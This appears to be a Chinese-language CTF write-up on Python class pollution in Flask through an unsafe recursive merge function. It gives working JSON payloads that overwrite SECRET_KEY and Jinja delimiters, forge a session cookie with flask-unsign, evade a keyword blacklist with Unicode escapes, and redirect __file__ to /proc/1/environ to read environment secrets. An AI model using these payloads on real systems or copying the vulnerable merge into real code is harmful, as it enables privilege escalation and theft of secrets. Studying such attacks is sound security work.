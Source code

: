 原型链
在Pyton中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找，原型链污染攻击的思路是通过修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果。
原型链污染和JavaScript的原型链污染差不多，都是需要merge 函数来修改父类的属性。

## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **jinja模板用的[# flag #]进行原型链污染**
污染 flask key 和 模板字符串的闭合规则。

因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf
```
app = Flask(__name__)
app.secret_key = generate_random_md5()

def merge(src, dst):
    # 可能造成原型链污染的函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)  #这里直接json.load可能造成原型链污染

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


flag.html内容：
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

这里要求password 等于全局变量app.secret_key后，可以通过flag.html带出flag。
flag.html里jinja模板用的[# flag #]，不是默认的{{ ... }}，不会渲染变量，这里需要加个jinja_env指定模板的闭合符号为[# #]让其可以像{{}}一样可以渲染。
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
这里直接根目录json请求，遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时继续根目录传递
```
username=adminer & password=123456
```
获取jwt再访问/admin就有session了



^
## **其他题payload**
```
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}
```
